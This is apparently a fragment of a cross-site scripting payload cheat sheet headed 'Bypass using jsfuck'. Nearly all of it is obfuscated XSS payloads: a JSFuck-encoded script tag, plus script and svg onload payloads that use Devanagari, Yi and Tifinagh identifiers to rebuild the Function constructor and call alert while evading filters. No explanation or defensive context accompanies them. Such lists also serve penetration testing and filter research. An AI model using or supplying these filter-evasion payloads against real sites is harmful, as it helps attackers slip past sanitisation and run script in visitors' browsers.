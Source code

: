 ```javascript
<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>

<script>क='',ख=!क+क,ग=!ख+क,घ=क+{},ङ=ख
[क++],च=ख[छ=क],ज=++छ+क,झ=घ[छ+ज
],ख[झ+=घ[क]+(ख.ग+घ)[क]+ग[ज]+ङ+
च+ख[छ]+झ+ङ+घ[क]+च][झ](ग[क]+ग[
छ]+ख[ज]+च+ङ+'`एक्स०एस०एस`')``</script>

<svg onload=ꆇ='',ꉄ=!ꆇ+ꆇ,ꉦ=!ꉄ+ꆇ,ꊗ=ꆇ+{},ꀻ=ꉄ[ꆇ++],ꃋ=ꉄ[ꆚ=ꆇ],ꋕ=++ꆚ+ꆇ,ꐍ=ꊗ[ꆚ+ꋕ],ꉄ[ꐍ+=ꊗ[ꆇ]+(ꉄ.ꉦ+ꊗ)[ꆇ]+ꉦ[ꋕ]+ꀻ+ꃋ+ꉄ[ꆚ]+ꐍ+ꀻ+ꊗ[ꆇ]+ꃋ][ꐍ](ꉦ[ꆇ]+ꉦ[ꆚ]+ꉄ[ꋕ]+ꃋ+ꀻ+"(ꆇ)")()>

<script>
ⵗ='',ⵗⵗ=!ⵗ+ⵗ,ⵗⵗⵗ=!ⵗⵗ+ⵗ,ⵗⵗⵗⵗ=ⵗ+{},ⵗⵗⵗⵗⵗ=ⵗⵗ[ⵗ++],ⵗⵗⵗⵗⵗⵗ=ⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗ=ⵗ],ⵗⵗⵗⵗⵗⵗⵗⵗ=++ⵗⵗⵗⵗⵗⵗⵗ+ⵗ,ⵗⵗⵗⵗⵗⵗⵗⵗⵗ=ⵗⵗⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗ+ⵗⵗⵗⵗⵗⵗⵗⵗ],ⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗⵗⵗ+=ⵗⵗⵗⵗ[ⵗ]+(ⵗⵗ.ⵗⵗⵗ+ⵗⵗⵗⵗ)[ⵗ]+ⵗⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗⵗ]+ⵗⵗⵗⵗⵗ+ⵗⵗⵗⵗⵗⵗ+ⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗ]+ⵗⵗⵗⵗⵗⵗⵗⵗⵗ+ⵗⵗⵗⵗⵗ+ⵗⵗⵗⵗ[ⵗ]+ⵗⵗⵗⵗⵗⵗ][ⵗⵗⵗⵗⵗⵗⵗⵗⵗ](ⵗⵗⵗ[ⵗ]+ⵗⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗ]+ⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗⵗ]+ⵗⵗⵗⵗⵗⵗ+ⵗⵗⵗⵗⵗ+"(ⵗ)")()
</script>

```


### Bypass using jsfuck
